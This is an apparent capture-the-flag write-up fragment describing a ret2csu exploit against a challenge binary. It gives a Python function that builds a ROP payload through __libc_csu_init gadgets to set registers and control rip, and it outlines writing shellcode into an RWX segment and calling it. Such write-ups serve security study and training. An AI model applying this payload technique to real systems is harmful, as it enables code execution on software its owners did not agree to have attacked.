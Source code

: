 # Exploit Works  
in challenge Binary, Due to insufficient gadgets in the binary, proceed to exploit via the 'libc_csu_init' function.  

'''python  
def csu_init(func, arg1, arg2, arg3, returns):
	payload =  'A' * 8
	payload += p64(0)    # rbx
	payload += p64(1)    # rbp
	payload += p64(func) # r12
	payload += p64(arg1) # r13
	payload += p64(arg2) # r14
	payload += p64(arg3) # r15
	payload += p64(returns) # rip
	return payload
'''  

and write Shellcodes in rwx segment (0x601000-0x602000), call it
